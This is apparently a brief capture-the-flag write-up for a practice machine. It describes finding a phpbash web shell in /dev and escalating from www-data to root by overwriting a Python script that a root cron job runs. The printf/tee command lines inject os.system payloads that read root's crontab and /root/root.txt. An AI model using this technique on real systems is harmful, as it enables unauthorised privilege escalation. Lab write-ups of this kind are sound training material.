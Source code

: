 ## User
Found **/dev** direcotry with drib common.txt list

In there was **phpbash.php** and **phpbash.min.php** giving me access to the system as **www-data** 

## Root
Used **sudo -l** to get more information with. This revealed that **www-data** is able to **sudo -u** as scriptmanager. **scriptmanager** had access to **/scripts/**. 

There was a **test.py** file and a **test.txt** file. **test.txt** was owened by root and **test.py** was owned by **scriptmanager** and the python script was writing some text into **test.txt**, which meant that **test.py** is getting executed by root.

**printf "import os\nos.system(\"whoami > /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** showed that the script was getting executed by root continually, which was most likely done by a cronjob.

**printf "import os\nos.system(\"crontab -l -u root > /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** proved this theory, as there was a cronjob that exexuts the python script:
```bash
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```

**printf "import os\nos.system(\"cat /root/root.txt> /scripts/test.txt\")" | sudo -u scriptmanager tee /scripts/test.py** provided the root flag,